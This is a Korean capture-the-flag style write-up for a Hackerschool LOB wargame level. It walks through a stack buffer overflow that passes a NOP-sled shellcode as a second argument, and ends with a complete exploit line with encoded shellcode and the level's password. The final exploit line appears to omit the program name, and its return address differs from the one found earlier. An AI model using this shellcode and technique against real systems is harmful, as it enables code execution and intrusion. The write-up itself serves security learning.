 ```yaml
---
date: '2022-10-18'
before : '2022-10-17'
after : '2022-10-19'
title: 'FTZ LOB LEVEL 8'
categories: ['C-SEC', 'KOR', 'PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이 문제에서는 더 이상 매개변수를 두개 넘겨줄 수 없다. 해결법은 그래도 그리 어렵진 않다.


### Level 8 : Orge -> Troll

소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed, 파라미터의 개수가 하나밖에 없다.
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter, 환경변수 사용 불가
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        // 첫 번째 argv의 마지막 값은 무조건 /xbf, 따라서 특정 주소를 나타내야 한다.
        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```
이런 경우는 그냥 첫 번째 매개변수에 두 번째 매개변수를 넘겨주면 되는데, 이게 무슨 말이냐면 :


>> 우리가 넘길 매개변수 = return주소를 포함하는 통상적인 버퍼 오버플로우 스트링 + " " (빈 스트링) + NOP SLED 포함 쉘코드


이런 식으로 매개변수를 넘겨서, return 주소가 NOP SLED 어딘가쯤에 오게 만들면 된다는 말이다. 말로 들으면 어려우니 코드를 보자 : 

```
b * main
r `python -c'print "A"*44+"\xbf\xbf\xbf\xbf"'` `python -c'print "\x90"*100'`
x/200x $esp
```
확인해보면 A(\x41)부터 시작해서 쭉쭉 나가다가 어느 순간 \x90이 시작되는 것이 보인다. 그 주소는 다음과 같다 : 


대충이나마의 주소 : 0xbffffb3c


그럼 그냥 return 코드로 저 주소를 넘겨주면 된다. 어렵지 않다.


따라서 exploit :

```
./`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"D"*44+"\x90\xfb\xff\xbf"'`
```

비밀번호 : aspirin

 ---
## Source

- 해커스쿨 FTZ
- Me!
